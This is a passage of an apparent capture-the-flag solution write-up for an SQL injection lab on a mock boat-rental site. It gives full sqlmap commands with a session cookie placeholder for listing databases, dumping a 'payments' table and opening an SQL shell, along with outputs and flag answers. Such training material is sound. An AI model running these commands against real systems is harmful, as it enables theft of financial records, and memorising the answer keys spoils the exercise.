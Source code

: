 As you had to log in to get to the member's area, you will need to use a cookie. The cookie will contain your session that authorises you to access this page. You can find your cookie value using the developer tools in your web browser, make sure to copy the whole value to provide to SQLMap.

To find the name of this database you could use the command `sqlmap -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -dbs`. This would give the output:
```
available databases [3]:
[*] geordie_boat_rentals_ltd
[*] information_schema
[*] performance_schema
```

From the output above, you could see that the database being used is __geordie_boat_rentals_ltd__.

You could also see that the database contained a table called `payments`, related to financial information, by running the command `sqlmap -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -D geordie_boat_rentals_ltd --tables`. This would return:
```
Database: geordie_boat_rentals_ltd
[2 tables]
+----------+
| boats    |
| payments |
+----------+
```
## Question 6
__Question:__ In the same database, what is the total sum of all the money in payments table?

__Answer:__ 569221

__Solution:__

Using the 'Rent a Boat' page from [question 5](#question-5), you could use the command `sqlmap -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -D geordie_boat_rentals_ltd -T payments --dump` to see what the table contained.

This would have returned 126 rows from the table. Just using the dump command is not enough to find the sum of all the money in the `payments` table. To easily calculate the sum, you could run the command `sqlmap -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" --sql-shell`. This would open a SQL shell, which you could run SQL commands.

In the SQL shell, you could run the SQL command `SELECT SUM(money) FROM payments;`. This would return the sum of the money, __569221__, contained in the money column of the `payments` table.

## Question 7
__Question:__ Try to gain access to the admin area. What is the admin motto? (Hint: SQLMap might not be useful for this but error messages might be)

__Answer:__ "The admins rule the seas!"

__Solution:__

If you logged in to member's area using the solution used in [question 3](#question-3), you would only have the role `member`. If you visited the admin area, while being a member, you would have seen an unauthorised error which said that the role `admin` was required.
